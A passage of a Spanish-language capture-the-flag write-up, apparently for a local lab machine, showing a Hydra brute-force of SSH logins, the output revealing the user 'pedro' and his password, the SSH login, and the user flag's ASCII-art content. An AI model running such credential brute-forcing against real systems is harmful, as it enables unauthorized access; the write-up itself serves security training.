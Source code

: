 ```shell
hydra -L users.txt -p purpl3 ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 12:18:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: pedro   password: purpl3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-13 12:18:57
```

Vemos que hemos obtenido las credenciales del usuario `pedro`, por lo que nos conectaremos por `SSH`.

### SSH

```shell
ssh pedro@<IP>
```

Metemos como contraseña `purpl3` y veremos que estamos dentro, por lo que leeremos la `flag` de usuario.

> fl4g.txt

```
                           _
                        _ooOoo_
                       o8888888o
                       88" . "88
                       (| -_- |)
                       O\  =  /O
                    ____/`---'\____
                  .'  \\|     |//  `.
                 /  \\|||  :  |||//  \
                /  _||||| -:- |||||_  \
                |   | \\\  -  /'| |   |
                | \_|  `\`---'//  |_/ |
                \  .-\__ `-. -'__/-.  /
              ___`. .'  /--.--\  `. .'___
           ."" '<  `.___\_<|>_/___.' _> \"".
          | | :  `- \`. ;`. _/; .'/ /  .' ; |
          \  \ `-.   \_\_`. _.'_/_/  -' _.' /
===========`-.`___`-.__\ \___  /__.-'_.'_.-'================
                        `=--=-'                    

                      ~ Sigue asi ~
```
